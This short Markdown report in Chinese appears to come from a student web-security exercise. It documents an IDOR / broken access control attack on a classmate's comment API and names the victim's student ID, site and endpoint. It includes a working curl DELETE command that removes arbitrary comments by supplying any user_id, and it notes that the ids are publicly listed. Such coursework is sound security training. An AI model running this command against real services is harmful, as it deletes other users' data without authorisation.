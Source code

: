 |||
|---|---|
|**攻擊者學號**|匿名|
|**受害者學號**|r13921a20|
|**受害者網站**|[https://pleasedonthurtme.vercel.app/](https://pleasedonthurtme.vercel.app/)|
|**攻擊手段**|IDOR / Broken Access Control|
|**漏洞位置**|[https://ia-midtermweb.onrender.com/api/comments/<id>](https://ia-midtermweb.onrender.com/api/comments/<id>)|
|**攻擊指令**|`curl -X DELETE "https://ia-midtermweb.onrender.com/api/comments/$1" \`<br>`-H "Content-Type: application/json \"`<br>` -d '{"user_id":"'"$2"'"}'`<br>**Note:**<br>Both comment and user id can be access directly at:<br>[https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)|

**成功攻擊截圖:**
![](img/IDOR/1.png){height=340}
<!-- ![](img/IDOR/2.png){height=350} -->

![](img/IDOR/3.png){height=340}
![](img/IDOR/4.png){height=50}
![](img/IDOR/5.png){height=500}
![](img/IDOR/6.png){height=500}

<div style="page-break-after: always"></div>
